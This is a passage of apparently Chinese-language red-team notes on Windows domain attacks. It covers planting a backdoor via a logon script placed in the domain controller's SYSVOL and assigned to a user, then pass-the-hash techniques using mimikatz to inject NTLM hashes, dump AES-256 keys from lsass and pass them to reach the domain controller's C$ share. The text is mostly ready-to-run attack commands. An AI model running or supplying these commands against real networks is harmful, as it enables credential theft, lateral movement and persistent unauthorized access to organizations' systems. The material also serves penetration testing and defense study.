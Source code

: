 二）登陆脚本给指定用户种马

login.bat放在域控的NETLOGON目录下面

```bash
copy login.bat \\域控\SYSVOL\sysvol\域名\SCRIPTS\test.bat
net user xp /scriptpath:login.bat # 内网域成员机器可以使用bash
gpupdate /force           # 立即刷新组策略 使用域管权限执行  不执行也行,等待随机
```

# Hash传递攻击 

> 哈希传递（Pass The Hash）攻击，直接将`NTML Hash`的散列值传递到其它主机，进行权限认证，获取控制权。
>
> 在域环境中，用户大都使用域账号登录，大量计算机在安装时会使用相同的本地管理员账号和密码；
>
> 因此，**如果计算机的本地账户名密码和目标相同**，就能通过哈希传递攻击获取目标主机控制权。
>
> **想要使用mimikatz的哈希传递功能，必须具有本地管理员权限（mimikatz需要高权限进程lsass.exe的执行权限）**

## 一、使用NTML Hash进行哈希传递

**（1）在目标机器中以管理员权限运行mimikatz**

```bash
mimikatz.exe "privilege::debug" "sekurlsa::pth /user:Administrator /domain:wintrysec.lab /ntlm:<NTML Hash>"
#<NTML Hash>为：f3a0acba8bcfb8a0896281bbfcb793ed这样的一串字符
```

**（2）列出目标域控C盘内容**（会自动弹出一个cmd.exe）

```bash
dir \\DC\c$   #测试是否成功
```

## 二、使用AES-256进行哈希传递 

> 当系统安装了`KB2871997`补丁，将无法使用常规的哈希传递攻击；
>
> 但是SID为500的Admintrator用户，依然可以使用哈希传递，或者使用AES-256进行哈希传递。

**（1）抓取AES-256密钥**

```bash
mimikatz.exe "privilege::debug" "sekurlsa::ekeys"
```

**（2）管理员权限运行mimikatz**

```bash
mimikatz "privilege::debug" "sekurlsa::pth /user:Administrator /domain:wintryse.lab /aes256:<AES-256密钥>"
```

## 三、不使用mimikatz进行哈希传递
